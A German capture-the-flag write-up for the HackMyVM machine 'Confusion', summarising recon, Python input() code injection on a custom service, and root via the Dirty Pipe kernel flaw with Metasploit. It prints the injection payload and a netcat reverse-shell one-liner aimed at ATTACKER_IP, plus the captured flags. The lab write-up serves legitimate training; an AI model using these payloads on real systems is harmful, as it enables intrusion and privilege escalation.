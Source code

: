 # Confusion - HackMyVM (Medium)

![Confusion Icon](Confusion.png)

## Übersicht

*   **VM:** Confusion
*   **Plattform:** [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Confusion)
*   **Schwierigkeit:** Medium
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 1. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Confusion_HackMyVM_Medium/
*   **Autor:** Ben C.

## Kurzbeschreibung

Die virtuelle Maschine "Confusion" von HackMyVM (Schwierigkeitsgrad: Medium) wurde durch eine Kette von Schwachstellen kompromittiert. Der initiale Zugriff erfolgte durch eine Python Code Injection-Schwachstelle in einem benutzerdefinierten Netzwerkdienst auf Port 32145, der die `input()`-Funktion unsicher verwendete. Dies ermöglichte die Ausführung von Befehlen als Benutzer `iamroot` und die Etablierung einer Reverse Shell. Die Privilegienerweiterung zu Root wurde durch die Ausnutzung der bekannten Kernel-Schwachstelle CVE-2022-0847 ("Dirty Pipe") erreicht, wobei das Metasploit Framework zur Identifizierung und Ausführung des Exploits verwendet wurde.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nikto`
*   `nmap`
*   `telnet`
*   `nc` (netcat)
*   `python` / `python3` (für Shell-Stabilisierung und RCE-Payload)
*   `stty`
*   `sudo`
*   `ss`
*   `find`
*   `cat`, `echo`, `vi`
*   `ssh`
*   Metasploit Framework (`msfconsole`):
    *   `exploit/multi/handler`
    *   `post/multi/manage/shell_to_meterpreter`
    *   `exploit/linux/local/cve_2022_0847_dirtypipe`
*   Standard Linux-Befehle (`id`, `ls`, `cd`)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Confusion" erfolgte in diesen Schritten:

1.  **Reconnaissance:**
    *   Ziel-IP (`192.168.2.109`, Hostname `confusion.hmv`) via `arp-scan` identifiziert.
    *   `nikto` auf Port 80 fand keinen Webserver.
    *   `nmap` zeigte offene Ports: 22 (SSH 8.4p1) und **32145** (unbekannter Dienst).
    *   Die Nmap-Fingerprinting-Skripte für Port 32145 zeigten Python-Tracebacks aus `/opt/ping.py`, die auf die Verwendung der `input()`-Funktion hindeuteten und bei HTTP-ähnlichen Anfragen fehlschlugen (`NameError`).

2.  **Initial Access (Python Input Injection):**
    *   Eine Telnet-Verbindung zu Port 32145 wurde hergestellt.
    *   Die Eingabeaufforderung "How many times you want to ping?:" wurde mit Python-Code beantwortet.
    *   Der Payload `eval('__import__("os").system("id")')` wurde gesendet, was die Ausführung des `id`-Befehls als Benutzer `iamroot` bestätigte.
    *   Weitere Befehle (`ls /home`, `ls /home/sammy`) zeigten die Benutzer `iamroot`, `sammy`, `still` und eine `user.txt` in Sammys Home, die aber für `iamroot` nicht lesbar war.
    *   Mittels `eval('__import__("os").system("nc -e /bin/bash ATTACKER_IP 8005")')` wurde eine Reverse Shell als `iamroot` zum Angreifer etabliert.
    *   Die Shell wurde stabilisiert.

3.  **Privilege Escalation Preparation (als iamroot):**
    *   `sudo -l` für `iamroot` zeigte die Regel `(!root) NOPASSWD: /bin/bash`, die keine direkte Root-Eskalation erlaubte.
    *   Keine ungewöhnlichen SUID-Dateien oder Capabilities gefunden.
    *   SSH-Zugriff als `iamroot` wurde durch Hinzufügen des eigenen öffentlichen Schlüssels zu `~/.ssh/authorized_keys` eingerichtet.
    *   Die Kernel-Version wurde als `Linux confusion 5.10.0-9-amd64 #1 SMP Debian 5.10.70-1 (2021-09-30)` identifiziert, bekannt als anfällig für CVE-2022-0847 (Dirty Pipe).

4.  **Privilege Escalation (Dirty Pipe via Metasploit):**
    *   Die `iamroot`-Shell (via `nc`) wurde in eine Metasploit-Shell-Session (Session 1) überführt (`exploit/multi/handler`).
    *   Diese Shell-Session wurde zu einer Meterpreter-Session (Session 2) aufgewertet (`post/multi/manage/shell_to_meterpreter`).
    *   (Der `local_exploit_suggester` wurde im Log nicht explizit verwendet, aber der Dirty Pipe Exploit direkt ausgewählt, vermutlich basierend auf der Kernel-Kenntnis).
    *   Das Metasploit-Modul `exploit/linux/local/cve_2022_0847_dirtypipe` wurde konfiguriert (Session 2, `WRITABLE_DIR=/tmp`) und ausgeführt.
    *   Der Exploit war erfolgreich und öffnete eine neue Meterpreter-Session (Session 3) mit Root-Rechten.
    *   Innerhalb der Root-Meterpreter-Session wurde eine System-Shell geöffnet (`shell`).
    *   Die User- und Root-Flags wurden gelesen.

## Wichtige Schwachstellen und Konzepte

*   **Python `input()` Code Injection:** Unsichere Verwendung der `input()`-Funktion in einem Python-Netzwerkdienst, die Remote Code Execution ermöglichte.
*   **Kernel Exploit (CVE-2022-0847 - Dirty Pipe):** Ausnutzung einer bekannten Schwachstelle im Linux-Kernel zur lokalen Privilegienerweiterung.
*   **Verwendung von Metasploit Framework:** Für Session-Management, Exploit-Suche und Ausführung.
*   **Ungewöhnliche `sudo`-Regel:** Bot keine direkte Eskalation, hätte aber für Lateral Movement genutzt werden können.
*   **Informationslecks durch Tracebacks:** Preisgabe von Skriptpfaden und Funktionsnamen.

## Flags

*   **User Flag (`/home/sammy/user.txt`):** `806451a0d37e94c20ea85f4e8e9ad3b8`
*   **Root Flag (`/root/root.txt`):** `cb9e279429419f5326e7755ba43c7055`

## Tags

`HackMyVM`, `Confusion`, `Medium`, `Python`, `Input Injection`, `RCE`, `Dirty Pipe`, `CVE-2022-0847`, `Kernel Exploit`, `Metasploit`, `Linux`
